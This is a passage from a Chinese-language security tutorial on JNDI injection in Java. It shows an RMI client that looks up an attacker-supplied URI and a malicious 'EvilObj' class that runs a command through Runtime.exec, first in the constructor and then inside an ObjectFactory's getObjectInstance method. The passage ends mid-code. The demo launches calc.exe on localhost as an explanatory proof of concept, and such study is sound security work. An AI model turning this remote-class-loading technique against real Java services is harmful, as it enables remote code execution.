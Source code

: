 服务端所需要做的就是将`reference类`通过`ReferenceWrapper`包裹后通过注册中心进行绑定，以便于客户端去请求得到该远程类

编写RMI客户端类:

```
package JNDI;

import javax.naming.Context;
import javax.naming.InitialContext;

public class RMIClient `{`
    public static void main(String[] args)  throws  Exception`{`
        String uri = "http://127.0.0.1:2333/EvilObj";
        Context ctx = new InitialContext();
        System.out.println("Being Looking up");
        ctx.lookup(uri);
    `}`
`}`
```

客户端这里直接将可控数据写入，`uri`即是我们可控的数据，这里直接演示将可控数据替换为构造好的恶意RMI服务器的地址，调用`lookup()`去获得远程类`EvilObj`

编写恶意类文件EvilObj

```
public class EvilObj `{`
    public EvilObj() throws Exception`{`
        Runtime runtime = Runtime.getRuntime();
        String command = "calc.exe";
        runtime.exec(command);
    `}`
`}`
```

在此过程中，我们知道客户端通过`lookup()`获取远程对象时，获得一个`Reference`类的`stub`,由于其为`Reference`实例，客户端首先加载本地`CLASSPATH`查询名为`EvilObj`的类，如果没有找到，则会去请求`http://127.0.0.1:2333/EvilObj.class`来动态加载该类，并且调用`EvilObj`的构造方法

> 注意为了避免加载本地CLASSPATH中的EvilObj类，可以将本地生成的`EvilObj.class`和`EvilObj.java`删除或者转移到其他目录下,或者直接使用javac将文件编译

最终成功调用`EvilObj`的构造方法实现RCE

[![](https://p2.ssl.qhimg.com/t019b0e8d33e749989e.png)](https://p2.ssl.qhimg.com/t019b0e8d33e749989e.png)

但是尽管可以执行，在客户端却会抛出异常，这里经过调试发现:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01cf081d835078bdad.png)

在此处实例化该类(`EvilObj`)后会实现类型转化为`ObjectFactory`类，而该类实际上是一个接口，因此我们需要在编写`EvilObj`类时实现该接口，该接口仅定义了一个方法:

[![](https://p4.ssl.qhimg.com/t01f8be3246c2a673b7.png)](https://p4.ssl.qhimg.com/t01f8be3246c2a673b7.png)

因此这里利用前文所述，在`getObjectInstance()`方法写入恶意代码，只需要改写`EvilObj.java`即可:

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilObj implements ObjectFactory `{`
    public EvilObj() throws Exception`{`
    `}`
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable&lt;?, ?&gt; environment) throws Exception `{`
    //恶意代码放到getObjectInstance中
        Runtime runtime = Runtime.getRuntime();
```